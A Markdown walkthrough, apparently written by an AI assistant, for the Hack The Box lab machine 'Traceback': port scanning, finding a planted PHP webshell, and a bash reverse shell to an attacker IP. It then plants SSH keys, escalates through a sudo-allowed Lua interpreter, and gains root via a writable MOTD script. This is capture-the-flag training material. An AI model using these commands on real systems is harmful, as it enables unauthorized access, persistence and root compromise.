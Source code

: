 Here’s a **clean, structured Markdown walkthrough** for **HTB: Traceback**, including all essential commands and explanations. You can copy and paste this directly into your notes, Obsidian, GitHub, or wherever you prefer:

---

# 🔍 HTB: Traceback — Walkthrough

**OS:** Linux  
**Difficulty:** Easy  
**Tags:** `webshell`, `lua`, `luvit`, `motd`, `ssh`, `cron privesc`

---

## 📡 Recon

### Full TCP Port Scan

```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.181
```

### Targeted Service Detection

```bash
nmap -p 22,80 -sC -sV -oA scans/nmap-tcpscripts 10.10.10.181
```

- **Ports Open**: 22 (SSH), 80 (HTTP)
- Apache/2.4.29, OpenSSH 7.6p1 → likely Ubuntu 18.04

---

## 🌐 Web Enumeration

### Webpage Source

- Page shows “owned” message by Xh4H
- Comment: `<!--Some of the best web shells that you might need ;)-->`
- Google search → list of known PHP webshell names

### Create Wordlist of Common Webshells

```bash
vim php_shells.txt  # Add shell names like smevk.php, cmd.php, r57.php etc.
```

### Gobuster with Wordlist

```bash
gobuster dir -u http://10.10.10.181 -w php_shells.txt
```

✅ **Found**: `/smevk.php`

---

## 🐚 Shell as webadmin

### Webshell Access

- Login: `admin:admin` (from source)
- Use Reverse Shell payload:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'
```

### Listener

```bash
nc -lvnp 443
```

🎯 Shell obtained as `webadmin`

---

## 🔐 Persist Access (Optional)

### Add SSH Key via Webshell

```bash
mkdir ~/.ssh
echo "your-ssh-pub-key" > ~/.ssh/authorized_keys
```

Then SSH in:

```bash
ssh webadmin@10.10.10.181 -i ~/keys/id_rsa
```

---

## 🧑‍💻 Privilege Escalation: webadmin → sysadmin

### Check for Sudo Rights

```bash
sudo -l
```

✅ `webadmin` can run `/home/sysadmin/luvit` as `sysadmin` without password

---

### Lua-based SSH Key Write Exploit

```lua
-- Save as /dev/shm/key.lua
authkeys = io.open("/home/sysadmin/.ssh/authorized_keys", "a")
authkeys:write("ssh-ed25519 AAAA... your-key-here ... user@host\n")
authkeys:close()
```

Run it:

```bash
sudo -u sysadmin /home/sysadmin/luvit /dev/shm/key.lua
```

🎯 Now SSH as `sysadmin`:

```bash
ssh sysadmin@10.10.10.181 -i ~/keys/id_rsa_sysadmin
```

✅ Get `user.txt`

---

## 🧑‍🔧 Privilege Escalation: sysadmin → root

### MOTD Scripts Writable

```bash
ls -l /etc/update-motd.d/
```

✅ Writable by `sysadmin` group (e.g., 00-header)

---

### Add Root Key via MOTD

```bash
echo "cp /home/sysadmin/.ssh/authorized_keys /root/.ssh/" >> /etc/update-motd.d/00-header
```

Immediately login again as any user to trigger script:

```bash
ssh webadmin@10.10.10.181
```

🎯 Now SSH as `root`:

```bash
ssh root@10.10.10.181 -i ~/keys/id_rsa_sysadmin
```

✅ Grab `root.txt`

---

## 🧩 Beyond Root

### Cron Discovery (via pspy or manually)

```bash
crontab -l
```

Shows:

```cron
* * * * * /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
* * * * * sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
```

- Scripts overwritten every 30 seconds from backup
- Acts as cleanup mechanism

### Enumeration Tips

- Group-writable scripts in MOTD folder = privesc vector
- LinPEAS / LinEnum with `-t` will detect this